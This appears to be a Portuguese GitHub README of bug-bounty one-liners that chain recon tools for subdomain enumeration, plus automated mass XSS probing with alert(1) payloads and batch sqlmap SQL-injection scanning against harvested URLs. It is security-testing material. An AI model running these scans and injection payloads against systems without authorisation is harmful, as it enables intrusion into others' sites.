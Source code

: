 # Liners_bounty
UMA SÉRIE DE ONELINERS PARA BUG BOUNTY

[Blog do Eike](https://ei7hacker.blogspot.com/)

[HTTPX](https://github.com/projectdiscovery/httpx)

[SUBFINDER](https://github.com/projectdiscovery/subfinder)

[HTTPROBE](https://github.com/tomnomnom/httprobe)

[ASSETFINDER](https://github.com/tomnomnom/assetfinder)

[ANEW](https://github.com/tomnomnom/anew)

[waybackurls](https://github.com/tomnomnom/waybackurls)

[FREQ](https://github.com/takshal/freq)

[AIRIXSS](https://github.com/ferreiraklet/airixss)
[GF](https://github.com/tomnomnom/gf)

### subdominios
```bash
 subfinder -d yahoo.com -o domains ; echo "yahoo.com" | assetfinder | tee -a domains ; wait ; cat domains | anew subs
```
### hosts 
```bash
subfinder -d hackerone.com | httpx  -o hosts

echo "hackerone.com" | assetfinder | httprobe | tee -a hosts

```
### status-code 
```bash
subfinder-d yahoo.com | httpx -status-code

subfinder-d yahoo.com | httpx -status-code -mc 200

subfinder-d yahoo.com | httpx -status-code -mc 300
```
### FIND XSS WITH FREQ AND QSREPLACE

```bash
echo "exemplo.com" | waybackurls | grep "=" | qsreplace "<script>alert(1)</script>" | freq 
```
### FIND WITH AIRIXSS

```bash
echo "exemplo.com" | waybackurls | gf xss | qsreplace "<svg onload=alert(1)>" | Airixss -payload "alert(1)" | egrep -v "Not"
```
###  FIND MASSIVE SQLI
```bash
waybackurls http://testphp.vulnweb.com | gf sqli | tee -a sqli.txt ; wait ; sqlmap -m sqli.txt --batch --random-agent --level 1
```
